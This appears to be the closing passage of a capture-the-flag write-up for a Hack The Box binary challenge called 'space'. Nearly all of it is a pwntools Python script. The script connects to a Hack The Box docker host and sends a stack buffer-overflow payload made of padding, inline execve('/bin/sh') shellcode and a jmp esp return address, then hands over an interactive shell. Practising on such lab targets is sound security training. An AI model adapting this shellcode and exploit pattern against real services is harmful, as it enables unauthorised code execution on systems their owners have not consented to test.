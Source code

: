 

## Final exploit


```
#jmp_esp = 0x0804919f:
from pwn import *

context.terminal = ['urxvt','-e','sh','-c']
context.log_level = 'DEBUG'
#for local
#sh = gdb.debug("./space")
#for remote
sh = remote("docker.hackthebox.eu",31465)
jmp_esp = p32(0x0804919f)

padding = b'a'*18
payload = b'a' + b'\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + jmp_esp + b'\x31\xd2\x31\xc0\x83\xec\x15\xff\xe4'
sh.sendlineafter("> ",payload)

sh.interactive()
```


